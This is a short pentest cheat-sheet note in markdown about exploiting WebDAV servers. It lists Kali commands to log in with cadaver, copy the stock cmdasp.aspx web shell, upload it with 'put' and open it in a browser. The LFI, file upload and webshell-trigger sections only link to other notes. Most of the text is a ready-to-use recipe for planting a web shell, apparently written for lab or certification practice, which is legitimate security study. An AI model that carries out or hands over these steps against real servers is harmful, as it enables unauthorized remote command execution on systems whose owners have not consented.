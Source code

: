 #### Login
```bash - kali
cadaver http://$TARGET
```
Sometimes you see webdav at different location, be sure to follow your dirsearch.py results!
#### Reverse Shell
```bash - kali
cp /usr/share/webshells/aspx/cmdasp.aspx .
```
Login with steps above if needed.
```bash - kali
put cmdasp.aspx cmdasp.aspx
```
Visit page via browser.
```
http://$TARGET/cmdasp.aspx
```
#### LFI
![[3._LFI RFI#Webdav creds]]
![[Hashcat#WebDav]]
#### File Upload
![[Curl#Upload file]]
#### Webdav trigger webshell
![[Curl#Webdav trigger webshell]]
